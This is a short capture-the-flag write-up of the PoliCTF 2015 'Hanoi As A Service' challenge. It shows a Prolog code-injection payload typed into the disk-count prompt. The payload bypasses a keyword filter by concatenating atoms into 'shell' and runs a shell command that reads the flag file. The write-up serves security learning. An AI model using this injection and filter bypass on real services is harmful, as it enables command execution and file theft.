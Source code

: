 # PoliCTF 2015: Hanoi As A Service

**Category:** Pwnable
**Points:** 50
**Solves:** 191
**Description:**

> Check out our shiny new HaaS platform!

>> nc haas.polictf.it 80

## Write-up

This pwnable is pretty simple, it seems to be a tower of hanoi solver. 
>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
> 3
> * Move top disk from a to b
> * Move top disk from a to c
> * Move top disk from b to c
> * Move top disk from a to b
> * Move top disk from c to a
> * Move top disk from c to b
> * Move top disk from a to b
>```

After messing around with it and looking up error codes it seems to be using prolog which is a logical programming language.

>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
>)
>ERROR: Prolog initialisation failed:
>ERROR: Syntax error: Illegal start of term
>ERROR: hanoi()
>ERROR: ** here **
>ERROR: ) . 
>```

Also there is a filter that terminates the session if anything os related is sent. After looking around on prolog functions, it turns out you can concatenate to atoms and use the call function on the result to by pass the filter.

>```bash
>% nc haas.polictf.it 80
>Welcome to the Hanoi-as-a-Service cloud platform!
>How many disks does your tower have?
>0), L = 'shel',K = 'l',atom_concat(L,K,M),call(M,'cat /home/ctf/haas/jhknsjdfhef_flag_here'), hanoi(0
>flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
>```

## Other write-ups and resources

* none yet
